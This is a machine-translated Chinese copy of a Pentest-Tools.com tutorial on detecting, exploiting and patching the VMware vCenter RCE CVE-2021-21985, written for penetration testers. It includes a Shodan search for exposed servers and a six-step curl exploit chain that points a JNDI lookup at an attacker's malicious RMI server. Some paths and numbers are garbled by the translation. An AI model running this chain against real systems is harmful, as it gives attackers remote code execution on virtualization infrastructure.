

# 如何利用 Pentest-Tools.com(CVE-2021-21985)| Pentest-Tools.com 的 VMware vCenter RCE

> 原文：<https://pentest-tools.com/blog/exploit-vmware-vcenter-rce-cve-2021-21985>

更多的高危漏洞意味着你要做更多的工作。好消息是什么？你不会很快失业的。坏消息呢？你可能会比你预期的多工作很多。那么，如何平衡好的和不太好的呢？当导致 RCE 的高风险 CVE 袭击你的目标时，有一个可复制的过程(像 CVE-2021-21985)。

使用强大、可靠的测试工具来评估系统是解决方案的一半。另一半是有一个好的来源列表(像这个博客)和一个清晰的检测和报告过程。

给你这个可重复的方法是我们这个技术指南的主要目标。它包括 VMware vCenter RCE 的背景、检测和利用策略，以及缓解技巧。我们来深入挖掘一下！

## **什么是 VMware vCenter？**

VMware vCenter Server 是一种服务器应用程序，可提供 vSphere 虚拟基础架构的集中管理。

VMware vSphere 是业内最常用的虚拟化和云计算平台之一，根据[VMware](https://www.vmware.com/files/pdf/VMware-Corporate-Brochure-BR-EN.pdf)的数据，超过 400，00 0 家公司使用他们的服务。面对如此庞大的客户群，不言而喻，vSphere 管理实用程序中的一个严重漏洞为任何有机会利用该漏洞的坏人提供了巨大的攻击面。

## **VMware vCenter RCE vuln 的工作原理**

由于 vCenter Server 默认附带的 vSAN 插件中的**检查不正确，对端口 443 进行网络访问的恶意参与者可以轻松地将 POST 请求(POST 数据**中带有**特制的有效负载)传递到/ui/h5-vsan/rest/proxy/service 下的所有易受攻击的端点。这将授予对托管 vCenter Server 的底层计算机的远程访问权限。**

## **易受攻击的 VMware vCenter 版本**

该漏洞也称为 [CVE-2021-21985](https://nvd.nist.gov/vuln/detail/CVE-2021-21985) ，它会影响 VMware vCenter Server 版本 6.5、6.7 和 7.0，以及 Cloud Foundation (vCenter Server)版本 3。x 到 4。根据 VMware 的[建议](https://www.vmware.com/security/advisories/VMSA-2021-0010.html)。由于具有较低的攻击复杂性，并提供了[高度影响](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-21985&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)数据机密性、完整性和可用性的可能性，它被赋予了 9.8 的 **CVSSv3 评分。**

自 2021 年 5 月 25 日 VMware 发布针对此漏洞的[公告](https://www.vmware.com/security/advisories/VMSA-2021-0010.html)以来，已有修复版本和解决方法，但很可能仍有大量易受攻击的实例存在。

## **CVE 的商业影响-2021-21985**

成功利用此漏洞后，未经验证的攻击者可获得对远程目标的**特权远程代码执行访问权限**。

通过不受限制的 RCE 访问，攻击者可以轻松劫持底层系统，进而窃取机密信息、安装勒索软件或改变内部网络。

您可以通过检查日志文件来检测您的系统是否遭到破坏。

为了方便起见，我在下面列出了基于 vCenter Server 版本及其部署平台的默认日志位置。

| **版本** | **平台** | **位置** |
| --- | --- | --- |
| vCenter Server 6.x 或更高版本 | Windows 操作系统 | c:\程序数据\ VMware \ vcenter server \ Logs |
| vCenter Server Appliance 6.x | Linux 操作系统 | /var/log/vmware |
| vCenter Server Appliance 6.x 闪存 | Linux 操作系统 | /var/log/VMware/VSP here-客户端 |
| vCenter Server Appliance 6.x HTML5 | Linux 操作系统 | /var/log/vmware/vsphere-ui |

## 如何找到易受 CVE 攻击的目标-2021-21985

我将向您展示如何找到可能受此漏洞影响的实例。

### **使用 Shodan**

在撰写本文时，Shodan 披露了大约 4，851 个潜在易受攻击的服务器。您可以使用以下 Shodan 查询“vcenter”来查找暴露在互联网上的 VMware vCenter 设备，这些设备可能易受此未经验证的 RCE 漏洞的攻击:



## **如何在道德黑客活动中手动检测 CVE-2021-21985**

为了**检测 CVE-2021-21985** ，我建议运行以下 unix curl 命令:

```
 curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[{"type":"ClusterComputeResource","value": null,"serverGuid": null}]}' 'https://<target>/ui/h5-vsan/rest/proxy/service/com.vmware.vsan.client.services.capability.VsanCapabilityProvider/getClusterCapabilityData' 
```

为了确认目标机器确实易受攻击，在命令响应中查找**{ " result ":{ " is disconnected ":**。

现在这就是乐趣的开始！

对于开发部分，请看以下步骤:

```
 curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[null]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetObject'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":["javax.naming.InitialContext.doLookup"]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setStaticMethod'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":["doLookup"]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetMethod'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[["rmi://<your-malicious-rmi-server>"]]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setArguments'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/prepare'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/invoke' 
```

如果你正在寻找一个更优雅的替代方案，即**只需要一个目标**和**几次点击**就可以避免输入这么长的卷曲命令，那么看看 Pentest-Tools.com 吧

## **如何缓解 CVE-2021-21985**

立即采取行动，并确保在您的环境中应用现有的补丁，因为 VMware 已经发布了针对 [CVE-2021-21985](https://www.vmware.com/security/advisories/VMSA-2021-0010.html) 的修复程序。

| 产品构建 | 固定版本 |
| --- | --- |
| **vCenter Server 7.0** | **vCenter Server 7.0 U2b** |
| **vCenter Server 6.7** | **vCenter Server 6.7 U3n** |
| **vCenter Server 6.5** | **vCenter Server 6.5 U3p** |
| **VMware v 云基础 4。x** | **VMware v 云基础 4。2 .1** |
| **VMware v 云基础 3。x** | **3.10.2.1 VMware v 云基金会** |

在您需要的时候，拥有您需要的合适工具不仅令人欣慰，而且对您的工作至关重要。我们深知这一点，因此我们致力于让他们成为支持您成长和职业发展的值得信赖的伙伴。

当像 CVE-2021021985 这样的高风险漏洞出现时，我们会迅速将准确的检测集成到平台中，以便像您这样的攻击性安全专家可以在几分钟内开始工作。

请相信我们会为您提供源源不断的实用测试指南。